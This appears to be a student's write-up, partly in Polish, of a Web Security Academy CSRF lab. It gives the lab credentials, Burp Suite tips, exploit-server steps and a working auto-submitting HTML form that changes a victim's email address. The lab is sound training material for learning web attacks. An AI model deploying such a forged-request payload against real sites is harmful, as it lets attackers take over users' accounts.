 Desc:  This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: wiener:peter 


1. Generowanie kodu CSRF na podstawie kodu formularza strony:
![image](https://github.com/user-attachments/assets/14f7648c-4ca6-4ce0-b16d-a781e9c637f7)

Uwaga: w Burp Pro jest możliwość generowania takiego kodu:
If you're using Burp Suite Professional, right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
Uwaga: w złośliwym kodzie trzeba dać mail ze znakiem "@", nie z kodowaniem "%40"

2. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
3. View exploit
4. Send exploit to victim

CSRF Code:
```
<form method="POST" action="https://0a030064033a92aa80a44433001800cf.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test11@normal-user.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
